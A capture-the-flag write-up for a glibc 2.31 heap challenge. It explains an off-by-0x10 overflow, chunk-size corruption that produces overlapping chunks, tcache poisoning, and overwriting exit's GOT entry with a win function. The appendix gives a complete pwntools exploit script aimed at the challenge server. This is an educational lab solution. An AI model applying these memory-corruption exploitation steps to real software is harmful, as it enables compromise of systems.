




# TahuBulat

## Problem

### Description

> &#x20;Dadakan
>
> _nc 103.181.183.216 17005_
>
> * Hint : overwrite GOT?

### Disclaimer


unsolved during the CTF, manage to solve after the event has ended



During the CTF, I already get the correct idea of the challenge however during the execution it didn't quite work and spent quite a lot of time debugging my exploit. This writeup covers another method to solve the challenge which relatively easier to understand and implement.&#x20;


***

## Proof of Concept

### Analysis

given compiled binary, we'll check its basic executable information and security perimeter. We're also given a Glibc version 2.31&#x20;


```bash
└─$ file soal      
soal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=1fa632ca8dc0342408260838a998d7fcc9d8bdc2, not stripped

└─$ checksec --file=soal 
RELRO           STACK CANARY      NX            PIE     
Partial RELRO   Canary found      NX enabled    No PIE 
```


next, after interacting with the binary a little bit it seems this is a typical CRUD heap challenge, just without the Update functionality. Next, I immediately  jump into ghidra.

<figure><figcaption><p>decompiled main()</p></figcaption></figure>

the main function act as a router, prompting user a choice and redirect to its according function. Let's take a look at each function one by one.&#x20;

<figure><figcaption><p>decompiled request()</p></figcaption></figure>

Option 1 provide us with with an allocation functionality of size max 0x420 bytes and max 3 chunks at the same time. Both of the pointer to the chunk and its corresponding size is stored at <mark style="color:green;">**SP**</mark> global variable which seems hold this structure:

```c
struct SP {
    void *ptr,
    long size
}
```

<figure><figcaption><p>decompiled fill()</p></figcaption></figure>

the function provides us the functionality to fill the allocated chunk user data. Here lies the main vulnerability which we'll exploit. For some reason, it allows us to write 0x10 bytes more than the actual size of the chunk, allowing us to corrupt some of the metadata of adjacent chunks.

the other functions that provide READ and DELETE functionality won't be showed here because of the lack of apparent vulnerability exist there since it implements the correct checking and does the correct removal of pointers on the <mark style="color:green;">**SP**</mark> to avoid dangling pointers.

oh yea, forgot to mention there's exist a win function.

### Exploitation

Since RELRO is partial and the existence of a win function, my instant thought is a GOT overwrite. To do that we'll need an arbitrary write primitive. The easiest way to do this with the heap is through tcache poisoning. Here's how we'll achieve that:

First, Let's allocate three chunks, first and last one of similar size, and smaller size in the between.

<figure><figcaption><p>heap initial state</p></figcaption></figure>

Next, we will corrupt the 2nd chunk's size, tricking the tcache to thought the chunk is bigger than it should be.&#x20;

<figure><figcaption><p>corrupted chunk 2's size</p></figcaption></figure>

Next, lets delete the chunks in order of 1 -> 3 -> 2. this will insert all of the chunk into the same 0x50 tcache bin although the 2nd chunk was suppossed to be 0x20 in size. Just to be sure, lets check this within GDB

```bash
pwndbg> heap
/*
    ....
*/

Free chunk (BinType.TCACHE) | PREV_INUSE            ---> chunk 1
Addr: 0x13c66b0
Size: 0x51
fd: 0x00

Free chunk (BinType.TCACHE) | PREV_INUSE            ---> chunk 2
Addr: 0x13c6700
Size: 0x51                ---> corrupted size
fd: 0x13c6730

Allocated chunk                                     ---> chunk 3
Addr: 0x13c6750                 
Size: 0x00                ----> supposed to be free as well but since corrupted,
                                it won't show properly
pwndbg> bins
tcachebins
0x50 [3]: 0x13c6710 —▸ 0x13c6730 —▸ 0x13c66c0 ◂— 0x0
```

Now, if we make another allocation the chunks should look something like this,

<figure><figcaption><p>heap state after corrupted and freed</p></figcaption></figure>

thus creating an overlapping chunk. And since we are able to edit chunk 2's data, chunk 3's fd is completely within our control. Since the <mark style="color:green;">**fd**</mark> controls where the allocation will be located after that chunk is returned for reallocation, we achieve arbitrary write almost anywhere.&#x20;

Rest is just overwrite one of the GOT table with the win function.&#x20;

<figure><figcaption><p>running full exploit and getting flag</p></figcaption></figure>

### Flag

_**hacktoday{soalnya\_dibikin\_dadakan\_karena\_ada\_probset\_yang\_buat\_soal\_tapi\_gaada\_solvernya\_muehehehe\_\_\_ZafiN}**_

***

## Appendix


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './soal'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '103.181.183.216', 17005

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x401611
'''.format(**locals())

def alloc(idx, size):
    io.sendlineafter(b'choice', b'1')
    io.sendlineafter(b'idx', str(idx).encode())
    io.sendlineafter(b'size', str(size).encode())
    
def write(idx, content):
    io.sendlineafter(b'choice', b'2')
    io.sendlineafter(b'idx', str(idx).encode())
    io.sendafter(b'content', content)
    
def read(idx):
    io.sendlineafter(b'choice', b'3')
    io.sendlineafter(b'idx', str(idx).encode())
    io.recvuntil(b'content : ')
    return io.recvline()

def delete(idx):
    io.sendlineafter(b'choice', b'4')
    io.sendlineafter(b'idx', str(idx).encode())

# =========================================================
#                         EXPLOITS
# =========================================================
# House Of Einherjar
# https://heap-exploitation.dhavalkapil.com/attacks/house_of_einherjar
# https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/house_of_einherjar/

# tried House Of Einherjar, I can't seems to do it
# used overlapping chunk technique instead
# glibc 2.31
io = initialize()

alloc(0, 0x40)
alloc(1, 0x10)
alloc(2, 0x40)

# overwriting 1's size, creating overlapping chunk upon next request
write(0, b'\x00' * 0x48 + p64(0x51))
delete(0)
delete(2)
delete(1)

# tcache poisoning on 2's fd 
# this will request 1's chunk which supposed to be 0x10 in size,
# however since we corrupt its size, the bin is going to act like its 0x40 in size
# which create an overlapping chunk with 2
alloc(1, 0x40)
write(1, b'\x00' * 0x18 + p64(0x51) + p64(elf.got['exit']))

# requesting 2's chunk, which has GOT in its fd for next allocation
alloc(2, 0x40)

# now this should be located on the GOT table
alloc(0, 0x40)
write(0, p64(elf.sym['winner']))

# calling exit (win)
io.sendlineafter(b'choice', b'5')

io.interactive()
```

